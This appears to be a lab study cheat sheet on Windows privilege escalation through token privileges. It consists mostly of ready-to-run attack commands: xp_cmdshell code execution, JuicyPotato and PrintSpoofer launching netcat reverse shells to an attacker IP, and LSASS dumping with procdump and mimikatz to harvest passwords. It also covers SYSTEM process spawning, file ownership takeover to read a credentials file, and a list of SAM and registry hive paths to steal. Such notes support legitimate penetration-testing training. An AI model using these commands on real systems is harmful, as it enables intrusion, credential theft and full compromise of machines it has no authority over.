 ## SeImpersonate Example - JuicyPotato

Scenario:
    Gaining foothold on SQL Server using privileged SQL user.

    - Achieve RCE using `xp_cmdshell` using creds from `logins.sql`
    - Connect with MSSQLClient.py
```bash
    mssqlclient.py sql_dev@10.129.43.30 -windows-auth
```

    - Enabling xp_cmdshell
    - `xp_cmdshell whoami /priv`
    - Drop JuicyPotato.exe and nc.exe onto the target
```
    xp_cmdshell c:\tools\Juicypotato.exe -l 53375 c:\windows\system32\cmd.exe 
        -a "/c c:\tools\nc.exe 10.10.14.3 -e cmd.exe" -t *
```

### Print Spoofer and RoguePotato

JuicyPotato doesn't work on WinServer 2019/Win10 build 1809 and newer.
However, PrintSpoofer and RoguePotato can be used.

PrintSpoofer can spawn a SYSTEM process in your current console.
```
xp_cmdshell c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"
```

## SeDebugPrivilege

`Sysinternals Suite` has `ProcDump` which can dump process memory.
```
whoami /priv -> SeDebugPrivilege (Enabled)
procdump.exe -accepteula -ma lsass.exe lsass.dmp

mimikatz.exe -> log -> sekurlsa::mimidump lsass.dump
sekurlsa::logonpasswords -> 

Or manually from Desktop:

Task Manager -> Details -> R-Click(lsass.exe) -> Create Dump File
```

## RCE as SYSTEM with SeDebugPrivilege

Using a child-process using the elevated Debug rights.
The main idea is that the user in question has RCE and also has `SeDebugPrivilege`

- Transfer this script: 
	https://raw.githubusercontent.com/decoder-it/psgetsystem/master/psgetsys.ps1
	`tasklist` -> `winlogon.exe`
- Load the script with args-> 
	;  `[MyProcess]::CreateProcessFromParent(<system_pid>,<command>,"")`
- Or with `[MyProcess]::CreateProcessFromParent((Get-Process "lsass").Id,"cmd.exe",""`

## SeTakeOwnershipPrivilege

This privilege assigns `WRITE_OWNER` rights over any securable object.

- `whoami /priv`
- Drop this script onto the target:
	https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1
- `Import-Module .\Enable-Privilege.ps1`
- `.\EnableAllTokenPrivs.ps1`

##### Choosing a Target File

Scenario: We can list the contents in a `private` SMB share but cannot read most files from it.
Our account has the `SeTakeOwnershipPrivilege` enabled. Be cautious, as taking ownership 
of certain files run by applications can break them.

##### Enumeration:
```
gci -path 'c:\department shares\private\IT\cred.txt' | 
select fullname,lastwritetime,attributes,@{name="Owner";expression={
(get-acl $_.FullName).Owner}}
```


##### Checking File's Ownership and Taking it

`cmd /c dir /q 'C:\Department Shares\Private\IT'`
`takeown /f 'C:\Department Shares\Private\IT\cred.txt'`

##### Modifying the File's ACL

We may still not be able to read the file and need to modify the ACL:
`icacls 'C:\Department Shares\Private\IT\cred.txt' /grant htb-student:F`

## Files of Interest

Some local files of interest may include:
```
C:\inutpub\wwwroot\web.config
%WINDIR%\repair\sam
%WINDIR%\repair\system
%WINDIR%\repair\software
%WINDIR%\repair\security

%WINDIR%\system32\config\SecEvent.Evt
%WINDIR%\system32\config\default.sav
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\software.sav
%WINDIR%\system32\config\system.sav

.kdbx files
password files, etc.
```


